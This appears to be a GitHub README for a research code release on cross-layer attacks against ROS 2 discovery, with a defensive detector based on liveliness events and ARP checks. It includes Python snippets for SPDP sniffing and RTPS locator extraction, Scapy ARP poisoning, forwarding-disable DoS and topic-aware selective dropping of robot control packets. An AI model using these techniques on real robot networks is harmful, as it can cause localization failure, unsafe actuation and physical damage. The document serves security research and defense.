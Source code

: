 # Cross-Layer Attacks from ROS 2 Discovery phase
<p align="center">
  <img alt="ROS2 logo" src="https://img.shields.io/badge/ROS--2-Humble-blue?style=for-the-badge">
  <img alt="Fast DDS logo" src="https://img.shields.io/badge/Fast--DDS-2.6.9-brightgreen?style=for-the-badge">
  <img alt="Scapy" src="https://img.shields.io/badge/Scapy-Packet%20Crafting-orange?style=for-the-badge">
</p>

## 📝 Paper Summary
ROS 2 protects communication data through SROS 2, but the unauthenticated discovery phase remains a security blind spot.
During the discovery phase, metadata such as IP addresses, ports, and participant identifiers are exposed and can be leveraged for ARP-based snooping, spoofing, and cross-layer attacks.

We design and implement cross-layer attack chains that manipulate lower network layers by leveraging these discovery-phase weaknesses.  
In real autonomous robot scenarios, we demonstrate that:

- **DoS attacks**: Even a short DoS lasting ~18 seconds can cause localization failure and induce a *kidnapped-robot* state.  
- **Selective forwarding attacks**: Dropping specific control packets can covertly block robot commands, leading to unsafe actuation, collisions, and potential physical damage.  

To counter these threats, we propose a detection mechanism that leverages QoS events, specifically ROS 2 liveliness events, to raise alerts during abnormal conditions and enable timely countermeasures.

Experiments were conducted on ROS 2 Humble with Fast DDS 2.6.9 over IEEE 802.11ac wireless links.
The attack code is released here to highlight how easily such vulnerabilities can be reproduced in practice, even against real robot systems.

# 💡 How the Cross-Layer Attack Chain Works
## Step 1: Multicast Join & SPDP Reception
The script consists of three logical stages: (1) joining the DDS discovery multicast, (2) capturing discovery packets, and (3) parsing RTPS to extract unicast locators.
### 1. Joining the Multicast Group
> - Create a UDP socket and call IP_ADD_MEMBERSHIP to join the standard ROS 2 discovery multicast group so that SPDP announcements reach the host.
> ```python
> mreq = struct.pack("4s4s", socket.inet_aton(MCAST_GRP), socket.inet_aton(LISTEN_IP))
> sock.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)
> ```

### 2. Packet Sniffing with Scapy
> - Use the Scapy tool to sniff and capture SPDP traffic with a BPF filter, processing each packet.
> ```python
> sniff(
>     filter=f"udp and host {MCAST_GRP} and port {SPDP_PORT}",
>     prn=packet_handler,
>     store=False
> )
> ```
### 3. Unicast Locator Extraction (RTPS Parsing)
> - Scan RTPS submessages, find DATA (ID 0x15), then parse the SerializedPayload → ParameterList to extract Unicast Locator parameters.
> ```python
> # Find DATA Submessage (ID: 0x15)
> if submessage_id == 0x15:
>     # Loop through ParameterList
>     while param_offset < param_list_end:
>         # Find Unicast Locator PID
>         if pid in [PID_METATRAFFIC_UNICAST_LOCATOR, PID_DEFAULT_UNICAST_LOCATOR]:
>             # Decode Locator data (kind, port, address)
>             ...
>             return f"UDPv4:{ip_addr}:{port}"
> ```


## Step 2: Cross-Layer Attack Execution (MITM / DoS / Selective Forwarding)
> **Purpose.**
> 
>This section documents a controlled feasibility demonstration conducted in a closed testbed to evaluate detection and resilience of ROS 2/DDS-RTPS systems. The procedures are intended solely for defensive research under proper authorization.
### 1. ARP Poisoning
> - Alters the ARP cache tables of the target nodes, rerouting their traffic through the attacker and thereby establishing an man-in-the-middle (MITM) position between the endpoints.
> ```python
> # Poison the target's ARP table
> arp = ARP(op=2, pdst=victim_ip, psrc=source_ip, hwdst=victim_mac)
> sendp(Ether(dst=victim_mac)/arp, iface=iface, verbose=False)
> ```

### 2. Traffic Hijacking
> **Denial-of-Service (Drop-All topic)**
> - Disables forwarding at the interposed test node so that intercepted traffic is not relayed, effectively severing connectivity between peers.
> ```python
> # Disable IP forwarding on the attacker's machine
> if sysname == "Linux":
>     subprocess.run(["sysctl", "-w", f"net.ipv4.ip_forward=0"], check=True)
> ```

> **Selective Forwarding Attack (Topic-Aware)**
> - Inspects RTPS headers to identify Writer Entity IDs associated with designated application streams and conditionally drops those packets while forwarding others, making the disruption harder to detect.
> ```python
> def nfqueue_callback(packet, state):
>     """NetfilterQueue callback for selective packet dropping"""
>     pkt = IP(packet.get_payload())
>     ...
>             # Check for target Writer Entity ID
>             for submsg in rtps_data.get('submessages', []):
>                 writer_entity_id = submsg.get('writer_entity_id', 'N/A')
>                 if writer_entity_id and state.should_drop_entity_id(writer_entity_id):
>                     print(f"[DROP] Blocking packet with Writer Entity ID: {writer_entity_id}")
>                     packet.drop()  # Drop specific packets
>                     return
>             
>     packet.accept()  # Forward all other packets
> ```

---
## 🔎 The Detection: QoS Triggered Anomaly Detection.
### 📜 Overview
This configuration underpins the node’s diagnostic capability. When a liveliness event is triggered (i.e., the liveliness lease is not renewed within lease_duration), the node launches an automated investigation rather than treating it as a mere disconnection. 

Immediately after the event, the node inspects the ARP table to distinguish causes:

- **No table change** → likely a benign network condition (temporary latency, loss, roaming).

- **Table change** → potential attack (e.g., IP→MAC remap of a publisher/gateway, or a single MAC mapped to multiple IPs).

This two-step process differentiates transient delay from deliberate manipulation.

### 1. QoS Event Callback Configuration
> - Liveliness callback fires when the publisher’s liveliness lease expires (NOT_ALIVE).
> ``` cpp
> auto qos = rclcpp::QoS(rclcpp::KeepAll()).reliable();
> qos.liveliness(RMW_QOS_POLICY_LIVELINESS_AUTOMATIC);
> qos.liveliness_lease_duration(std::chrono::seconds(2)); 
> // Bind the liveliness_callback function to the event
> rclcpp::SubscriptionOptions options;
> options.event_callbacks.liveliness_callback =
> std::bind(&MinimalSubscriber::liveliness_callback, this, _1);
> ```
>
### 2. Event-Driven Diagnostics (ARP Verification)
> **Update ARP Cache**: The node executes the system command arp -n to fetch the current IP-to-MAC address mappings on the network.
>
> **Verify Changes & Detect Conflicts**: It compares the newly fetched ARP table against its previously stored version.
> Critically, it checks if a single MAC address is mapped to multiple IP addresses.
> ``` cpp
> // C++ code snippet for the liveliness callback
> void MinimalSubscriber::liveliness_callback(rclcpp::QOSLivelinessChangedInfo &event)
> {
> // If a publisher is declared "not alive"...
>   if (event.not_alive_count > 0) {
>       // ...update the local ARP cache...
>       update_arp_cache();
>       // ...and verify it for changes and conflicts.
>       verify_arp_changes();
>     }
> }
> ```
✅ Platform note: Implemented and tested on Linux; root privileges may be required to access detailed arp cache table info.

## 📢 Notice
This project is currently compatible with ROS 2 Humble using Fast DDS 2.6.9. 

